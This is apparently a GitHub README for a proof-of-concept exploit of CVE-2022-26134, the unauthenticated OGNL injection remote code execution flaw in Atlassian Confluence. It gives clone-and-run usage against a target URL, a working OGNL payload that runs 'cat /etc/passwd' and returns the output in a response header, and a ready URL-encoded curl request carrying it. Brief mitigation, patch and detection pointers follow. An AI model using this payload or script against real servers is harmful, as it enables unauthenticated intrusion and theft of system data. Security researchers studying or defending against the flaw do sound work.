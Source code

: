
### CVE-2022-26134 - OGNL injection vulnerability.

Script proof of concept that exploits the remote code execution vulnerability affecting Atlassian Confluence 7.18 and lower products. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance.


### Affected versions

All supported versions of Confluence Server and Data Center are affected.<br>
Confluence Server and Data Center versions after 1.3.0 and bellow 7.18.1 are affected.<br>
The vulnerability has a CVSS score of 10 out of 10 for criticality.<br>

### Dependencies:
- Python 3.3+
- The dependencies can be satisfied via pip install -r requirements.txt

### How to use:

Clone the repo
```bash
git clone https://github.com/Nwqda/CVE-2022-26134
cd CVE-2022-26134
```

Then you can run the exploit with the command of your choice as follow:
```python
python3 cve-2022-26134.py https://target.com CMD
python3 cve-2022-26134.py https://target.com id
python3 cve-2022-26134.py https://target.com "ps aux"
```

 ### Video Proof of Concept

![Script PoC CVE-2022-26134](https://i.ibb.co/gSDs1Bz/CVE-2022-26134.png)

[![Video PoC CVE-2022-26134 OGNL injection Atlassian Confluence](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://youtu.be/AoPVDMihNgA)

 ### Payload
 
 ```java
 ${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("cat /etc/passwd").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
 ```
 

Example with CURL command:
```bash
curl --head -k "https://YOUR_TARGET.com/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22cat%20%2Fetc%2Fpasswd%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D" 
```

Then, the result of the command will be reflected in the parameter `X-Cmd-Response` in the response header. 

### Mitigations guidelines from vendors

Follow the official recommendations from Atlassian:<br>
https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html

### Patched Versions
Atlassian released versions 7.4.17, 7.13.7, 7.14.3, 7.15.2, 7.16.4, 7.17.4 and 7.18.1 which contain a patch for this issue.

### Detect capabilities
This vulnerability affects all self-hosted instances. If you use a WAF you can block URLS with `${` inside.

YARA (by Volexity): https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar

### Note
FOR EDUCATIONAL PURPOSE ONLY.<br><br>
![CVE-2022-26134 meme fire](https://pbs.twimg.com/media/FUUb6YrWAAETahZ?format=jpg&name=small)
